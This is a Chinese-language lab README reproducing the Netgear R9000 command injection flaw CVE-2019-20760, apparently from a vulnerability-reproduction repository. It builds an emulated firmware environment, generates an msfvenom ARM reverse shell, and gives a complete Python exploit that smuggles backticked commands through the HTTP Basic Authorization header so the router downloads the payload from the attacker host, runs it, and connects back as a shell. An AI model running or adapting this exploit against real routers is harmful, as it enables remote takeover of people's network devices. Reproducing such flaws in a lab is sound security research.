

# Netgear R9000 命令注入漏洞（CVE-2019-20760）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:armhf

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/armhf && docker build -t firmianay/qemu-system:armhf . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/R9000-V1.0.4.26.img"
```

使用 Metasploit 生成反向 shell，并复制到 `system-emu/tools` 目录下：

```sh
$ msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-armv5l CVE-2019-20760/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/arm-gdbserver-7.11.1 CVE-2019-20760/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-system.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/cgi-bin/

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现



## Exploit

```py
#!/usr/bin/python3

from pwn import *
from threading import Thread
import requests
import base64

cmd  = 'admin:'
cmd += '`'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'
cmd += '`'

assert(len(cmd) < 255)

cmd_b64 = base64.b64encode(cmd.encode()).decode()

headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + cmd_b64
}

def attack():
    try:
        requests.get("http://192.168.2.2/cgi-bin/", headers=headers, timeout=1)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://nvd.nist.gov/vuln/detail/CVE-2019-20760
- https://xz.aliyun.com/t/9125
